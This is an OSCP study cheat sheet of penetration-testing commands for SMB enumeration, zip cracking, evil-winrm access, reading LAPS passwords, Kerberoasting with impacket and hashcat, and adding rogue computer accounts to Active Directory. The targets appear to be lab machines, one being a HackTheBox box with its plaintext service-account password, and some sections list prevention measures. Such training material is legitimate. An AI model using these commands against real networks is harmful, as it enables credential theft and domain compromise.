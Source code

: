 # OSCP


File Management:-

	Linux:-
		
		ls -la : show hidden files & size & permissions.
		lsattr : list files attribute and if you can append even if you don't have write permission.
		chattr : change files attribute (a:append,e:can't change,I:can't delete or move,etc..).	
		ln originFile copyFile : to make hard link of originFile to copyFile
		ln -s sourceFile copyFile : to make a soft link(shortcut in windows) to sourceFile, you will find -i when you ls -la copyFile.




	Windows:-
	
		dir /(A,S,Q): display files attributes,files in directories & sub directories,files owner.
		
		
SMB Enumeration:-

	enum4linux,nmap to get domain controller + user 
	smbmap -H 10.10.11.152 -u 'guest' -d Timelapse.htb     --- to search for readable/writable shares you can use -R for recursive 
	smbclient //10.10.11.152/Shares -U Timelapse.htb/guest  --- to connect where Timelapse.htb is the domain controller and guest is the user
	
	
Password Attacks

	fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt winrm_backup.zip	--- to crack zip files


General Information:-

	PFX files contains certificate and private key which can be extracted using openssl
	evil-winrm -k private.key -c public.key -i 10.10.11.152 -S   ---- to connect to winrm on port 5986 with ssl 
	example of evil-winrm to hack active directory:
			*Evil-WinRM* PS C:\users> $so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
			*Evil-WinRM* PS C:\users> $p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
			*Evil-WinRM* PS C:\users> $c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
			invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {net user svc_deploy}
			invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {Get-ADComputer -Filter * -properties ms-mcs-admpwd,ms-mcs-admpwdexpirationtime}
	

	
Active Directory Attacks:-

	Kerberoasting: Post exploitation attack, require a valid user (TGT) to request TGS from a service account with SPN and crack the TGS to get the credentials out of it (TGS is encrypted with the NTLM hash of the SPN account password).
		Tools that can be used:-
			1-Rubeus
			2-Impacket GetUserSPNs.py
			3-Powershell scripts, etc..
		Steps:-
			impacket-GetUserSPNs test.int/yazan:'yazan' -dc-ip 192.168.100.200   //serach for SPN that can help us in escilating priv.
			impacket-GetUserSPNs test.int/yazan:'yazan' -dc-ip 192.168.100.200 -request -outputfile output.hash // save the hash
			hashcat --force -m 13100 -a 0 output.hash rockyou.txt //dictionary attack to get the password 
		
		Prevention:-
			Use strong and complex password or host based password insted of user based password.
			
	Default Settings -Add-Computer
	
		Configration:-
			ms-DS-MachineAccountQuota attribute (10 by default)
			add workstation to the domain permission (enabled by default)
		Steps:-
			crackmapexec smb 192.168.200.1/30 //search for machines
			crackmapexec smb 192.168.200.1/30 -u yazan -p 'yazan' -d domain.ini //search for the domain controller 
			impacket-addcomputer -dc-ip 192.168.100.200 domain.iti/yazan:'yazan' -computer-name Computer1$ -computer-password yazan //create a computer account the name of it must containt $ at the end 
		Prevention:-
			from the configuration give it only for the needed staff.
	
	Enumeration:-
		impacket-GetADUsers domain.ini/yazan:'yazan' -dc-ip 192.168.100.200
